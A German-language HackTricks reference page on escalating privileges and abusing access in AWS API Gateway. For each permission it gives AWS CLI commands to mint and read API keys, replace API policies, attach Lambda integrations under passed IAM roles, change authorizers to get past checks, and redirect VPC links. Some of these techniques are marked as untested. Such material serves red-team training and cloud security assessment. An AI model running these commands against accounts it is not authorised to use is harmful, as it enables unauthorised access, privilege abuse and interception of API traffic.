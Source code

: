 # AWS - Apigateway Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Apigateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Mit dieser Berechtigung kannst du API-Schlüssel der konfigurierten APIs (pro Region) generieren.
```bash
aws --region <region> apigateway create-api-key
```
**Potenzielle Auswirkungen:** Sie können mit dieser Technik keine Privilegien erhöhen, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:GET`

Mit dieser Berechtigung können Sie die generierten API-Schlüssel der konfigurierten APIs (pro Region) abrufen.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien erhöhen, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Mit diesen Berechtigungen ist es möglich, die Ressourcenrichtlinie einer API zu ändern, um sich selbst den Zugriff zu gewähren, sie aufzurufen und potenzielle Zugriffe, die das API-Gateway haben könnte, auszunutzen (wie das Auslösen eines anfälligen Lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potenzielle Auswirkungen:** Sie werden normalerweise nicht direkt mit dieser Technik privesc erreichen können, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:PutIntegration`, `apigateway:CreateDeployment` und `iam:PassRole` kann **eine neue Integration zu einer bestehenden API Gateway REST API mit einer Lambda-Funktion hinzufügen, die eine IAM-Rolle zugewiesen hat**. Der Angreifer kann dann **die Lambda-Funktion auslösen, um beliebigen Code auszuführen und möglicherweise Zugriff auf die mit der IAM-Rolle verbundenen Ressourcen zu erhalten**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf Ressourcen, die mit der IAM-Rolle der Lambda-Funktion verbunden sind.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:UpdateAuthorizer` und `apigateway:CreateDeployment` kann **einen bestehenden API Gateway-Autorisierer ändern**, um Sicherheitsüberprüfungen zu umgehen oder um beliebigen Code auszuführen, wenn API-Anfragen gestellt werden.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Umgehung von Sicherheitsprüfungen, unbefugter Zugriff auf API-Ressourcen.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit der Berechtigung `apigateway:UpdateVpcLink` kann **einen bestehenden VPC-Link ändern, um auf einen anderen Netzwerk-Load-Balancer zu verweisen, wodurch privater API-Verkehr möglicherweise an unbefugte oder bösartige Ressourcen umgeleitet wird**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf private API-Ressourcen, Abfangen oder Stören des API-Verkehrs.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
